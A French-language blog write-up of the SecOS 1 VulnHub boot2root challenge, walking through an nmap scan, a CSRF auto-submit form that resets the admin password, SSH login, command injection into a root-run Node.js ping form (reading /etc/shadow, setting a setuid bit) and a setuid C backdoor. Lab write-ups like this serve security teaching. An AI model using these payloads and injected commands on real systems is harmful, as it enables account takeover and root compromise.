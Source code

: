 # Solution du CTF SecOS 1

Nitro
-----

Le challenge [SecOS premier du nom](http://vulnhub.com/entry/secos-1,88/) se présente comme un boot2root (c'est à dire qu'il faut récupérer l'accès root) web-based.  

La VM peut se monter depuis *VirtualBox*, c'est une *Ubuntu* 32 bits. Il faut créer une nouvelle VM et sélectionner le fichier existant comme disque virtuel.  

One time
--------

Deux ports sont ouverts : un SSH ainsi qu'un serveur web servi par Node.js.  

```plain
Starting Nmap 6.46 ( http://nmap.org ) at 2014-05-24 12:08 CEST
Nmap scan report for 192.168.1.20
Host is up (0.00023s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:d9:32:f5:1d:19:88:d3:e7:af:f0:4e:21:76:7a:c8 (DSA)
|   2048 90:b0:3d:99:ed:5b:1b:e1:d4:e6:b5:dd:e9:70:89:f5 (RSA)
|_  256 78:2a:d9:e3:63:83:24:dc:2a:d4:f6:4a:ac:2c:70:5a (ECDSA)
8081/tcp open  http    Node.js (Express middleware)
|_http-title: Secure Web App
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at http://www.insecure.org/cgi-bin/servicefp-submit.cgi :
SF-Port22-TCP:V=6.46%I=7%D=5/24%Time=53806FA6%P=x86_64-suse-linux-gnu%r(NU
SF:LL,27,"SSH-2\.0-OpenSSH_6\.6p1\x20Ubuntu-2ubuntu1\r\n");
MAC Address: 08:00:27:2E:F6:F7 (Cadmus Computer Systems)
No exact OS matches for host (If you know what OS is running on it, see http://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=6.46%E=4%D=5/24%OT=22%CT=1%CU=43345%PV=Y%DS=1%DC=D%G=Y%M=080027%T
OS:M=53806FB2%P=x86_64-suse-linux-gnu)SEQ(SP=FF%GCD=3%ISR=105%TI=Z%CI=I%II=
OS:I%TS=8)OPS(O1=M5B4ST11NW6%O2=M5B4ST11NW6%O3=M5B4NNT11NW6%O4=M5B4ST11NW6%
OS:O5=M5B4ST11NW6%O6=M5B4ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W
OS:6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M5B4NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=
OS:O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD
OS:=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0
OS:%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1
OS:(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI
OS:=N%T=40%CD=S)
```

Le site web utilise *Bootstrap* pour le JS et CSS donc on a l'impression de déjà connaître le site avant l'avoir visité :p   

Je lance [Wapiti](http://wapiti.sourceforge.net/) qui ne trouve rien d'intéressant.  

Le site dispose d'une zone privée pour les utilisateurs connectés depuis laquelle ils peuvent s'échanger des messages. Malheureusement, après création d'un utilisateur *toto*, toujours pas de faille à l'horizon.  

Une page liste les utilisateurs enregistrés, voici un extrait :  

![Utilisateurs enregistrés](https://github.com/devl00p/blog/raw/master/images/secos_users.png)  

Je lance [dirb](http://dirb.sourceforge.net/) qui me trouve une page */hint* dans laquelle on trouve en code source :  

```html
      <div class="jumbotron">
        <p><i>Are you sure there's something to see here?</i></p>
        <!--
        First: the admin visits the website (really) frequently
        Second: He runs it locally, on 127.0.0.1. 
        Third: CSRF and /(http:\/\/[-\/\.\w:0-9\?&]+)/gi, I think that's enough
        !-->
      </div>
```

Effectivement il n'y a pas de token anti-CSRF. D'après l'expression régulière on devine que le simple fait de poster une URL provoquera une requête depuis le compte *spiderman* (l'administrateur).  

On créé la page index.html suivante avec formulaire auto-submit que l'on livre avec *SimpleHTTPServer* :  

```html
<html>
<body>
<form action="http://127.0.0.1:8081/change-password" method="POST" id="inject">
    <input type="hidden" name="username" value="spiderman" />
    <input type="hidden" name="password" value="hacked" />
</form>
<script language="Javascript">
    document.getElementById("inject").submit();
</script>
</body>
<html>
```

On envoie ensuite un message à *spiderman* avec l'URL de notre serveur. On voit rapidement apparaître une requête dans les logs, ça a fonctionné :)  

```plain
$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.1.20 - - [24/May/2014 17:21:14] "GET / HTTP/1.1" 200 -
```

On se connecte alors avec l'utilisateur *spiderman* et le mot de passe *hacked* sur la webapp. Direction les messages privés...  

![spiderman private messages](https://github.com/devl00p/blog/raw/master/images/secos_spiderman_msg.png)  

Visiblement pirate a fait le travail pour nous :) Il ne reste qu'à se connecter en SSH sur la machine avec *spiderman* et *CrazyPassword!* :  

```plain
Welcome to Ubuntu 14.04 LTS (GNU/Linux 3.13.0-24-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sat May 24 12:07:20 CEST 2014

  System load: 1.04              Memory usage: 8%   Processes:       78
  Usage of /:  23.3% of 6.50GB   Swap usage:   0%   Users logged in: 0

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Wed May  7 18:19:57 2014 from 192.168.56.1
spiderman@SecOS-1:~$ 
```

Two time
--------

Avec un *pstree -a* on voit que deux Nodes.js tournent dont l'un en root :  

```plain
  ├─sudo -u spiderman sh -c /usr/local/bin/node /home/spiderman/vnwa/server.js
  │   └─sh -c /usr/local/bin/node /home/spiderman/vnwa/server.js
  │       └─node /home/spiderman/vnwa/server.js
  │           └─5*[{node}]
  ├─sudo -u root sh -c /usr/local/bin/node /home/spiderman/vnwa/internalServer.js
  │   └─sh -c /usr/local/bin/node /home/spiderman/vnwa/internalServer.js
  │       └─node /home/spiderman/vnwa/internalServer.js
  │           └─5*[{node}]
```

Il y a deux infos intéressantes dans *internalServer.js* : d'abord il écoute sur le port 9000 (mais sur le loopback) et ensuite il semble y avoir une faille d'injection de commande.  

```js
app.post('/', function (req, res) {
    ip = req.body.ip
    if (ip == "") {
        utils.redirect(req, res, '/ping-status');
    } else {
        // getting the command with req.params.command
        var child;
        // console.log(req.params.command);
        child = exec('ping ' + ip, function (error, stdout, stderr) {
            res.render('ping.ejs', {
                isConnected: req.session.isConnected,
                message: stdout,
                isAdmin: req.session.isAdmin
            });
        });
    }
});

server.listen(9000, '127.0.0.1', function() {
  console.log("Listening on port 9000");
});
```

On créé un tunnel SSH afin de rediriger notre port 8888 local vers le port interne 9000 de la VM :  

```bash
ssh -L 8888:127.0.0.1:9000 spiderman@192.168.1.20
```

La page contient un champ de formulaire qui est en effet vulnérable : si on rentre *;cat /etc/shaddow* ont voit les hashs des utilisateurs (sha512, inutile de perdre du temps là dessus).  

On écrit une petite backdoor setuid que l'on compile :  

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```

Il n'y a plus qu'à injecter *;chown root:root /tmp/gotroot;chmod 4755 /tmp/gotroot* comme adresse IP.  

![injection de commande dans le formulaire ping](https://github.com/devl00p/blog/raw/master/images/secos_ping.png)  

On lance la backdoor qui nous donne les bons droits...  

```plain
root@SecOS-1:/root# cat flag.txt 
Hey,

Congrats, you did it ! 

The flag for this first (VM) is: MickeyMustNotDie.
Keep this flag because it will be needed for the next VM.

If you liked the Web application, the code is available on Github. 
(https://github.com/PaulSec/VNWA)

There should be more VMs to come in the next few weeks/months.

Twitter: @PaulWebSec
GitHub : PaulSec
```

Done !

*Published May 24 2014 at 17 27*
